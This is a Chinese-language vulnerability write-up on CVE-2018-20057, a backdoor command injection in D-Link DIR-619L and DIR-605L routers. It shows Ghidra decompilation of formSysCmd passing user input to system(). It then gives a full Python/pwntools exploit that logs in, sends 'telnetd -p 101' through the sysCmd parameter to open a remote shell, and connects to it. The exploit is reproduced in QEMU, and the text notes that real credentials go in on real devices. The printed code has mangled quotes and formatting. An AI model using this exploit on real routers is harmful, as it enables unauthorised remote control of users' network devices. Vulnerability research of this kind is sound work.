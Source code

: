 ```yaml
---
title: "（CVE-2018-20057）D-Link DIR-619L&605L 命令注入漏洞"
id: zhfly3381
---
```


# （CVE-2018-20057）D-Link DIR-619L&605L 命令注入漏洞

## 一、漏洞简介

D-LINK的DIR-619L Rev.B 2.06B1版本之前和DIR-605L Rev.B 2.12B1版本之前的设备，在/bin/boa文件的formSysCmd函数存在后门，导致攻击者在身份认证后可以通过访问

```
http://[ip]//goform/formSysCmd并指定sysCmd参数，从而实现远程命令注入。 
```

固件下载地址：ftp://ftp2.dlink.com/PRODUCTS/DIR-619L/REVB/

本漏洞的路由器运行环境与CVE-2018-20056相同。

## 二、漏洞影响

D-LINK的DIR-619L Rev.B 2.06B1版本之前和DIR-605L Rev.B 2.12B1版本之前的设备。

## 三、复现过程

### 漏洞分析

查看ghidra中的反编译代码，在formSysCmd中，首先获取sysCmd参数，然后通过snprintf写入栈中变量，直接调用system函数执行该参数内容。

```
void formSysCmd(undefined4 uParm1)
{
  undefined4 uVar1;
  char *pcVar2;
  char acStack120 [104]; `uVar1 = websGetVar(uParm1,“submit-url”,&DAT_004ac874);

//获取post参数sysCmd，该参数可由用户控制

pcVar2 = (char *)websGetVar(uParm1,“sysCmd”,&DAT_004ac874);

if (*pcVar2 != 0) {

//将sysCmd写入栈中，并调用system执行

snprintf(acStack120,100,"%s 2>&1 > %s",pcVar2,"/tmp/syscmd.log");

system(acStack120);

}

websRedirect(uParm1,uVar1);

return;

}` 
```

### 漏洞复现

该漏洞是在身份认证成功之后才可实现命令注入，需要先登录输入用户名和口令。由于是在qemu中模拟固件，通过apmib_get读取路由器本地配置无法实现，所以在劫持了apmib_get函数之后，login输入的用户名和密码暂时填为空。在真机上操作时，换成真实的用户名和密码即可。

```
import requests
import sys
import struct
import base64
from pwn import *
context(arch='mips',endian='big',log_level='debug') `ip=‘192.168.84.129’

port=101

def login(user,password):

postData = {

‘login_name’:’’,

‘curTime’:‘1234’,

‘FILECODE’:’’,

‘VER_CODE’:’’,

‘VERIFICATION_CODE’:’’,

‘login_n’:user,

‘login_pass’:base64.b64encode(password),

}

response = requests.post(‘http://’+ip+’/goform/formLogin’,data=postData)

#print response.url

def syscmd(cmd):

postData = {

‘sysCmd’:cmd,

‘submit-url’:‘1234’,

}

response = requests.post(‘http://’+ip+’/goform/formSysCmd’,data=postData)

#print response.url

def inter():

p=remote(ip,port)

p.interactive()

if **name** == “**main**”:

login(’’,’’)#这里要写实际的用户名和密码，例如admin 12345

syscmd('telnetd -p '+str(port))

inter()` 
```

另由于qemu模拟时，/dev下没有pty设备，导致telnet连接不能实现，但是端口是已经打开了：

![image](../img/3ae319536d3b869a8084b9f9a4774ebb.png)

![image](../img/092262c8303782661ff4fb6c46a54c8a.png)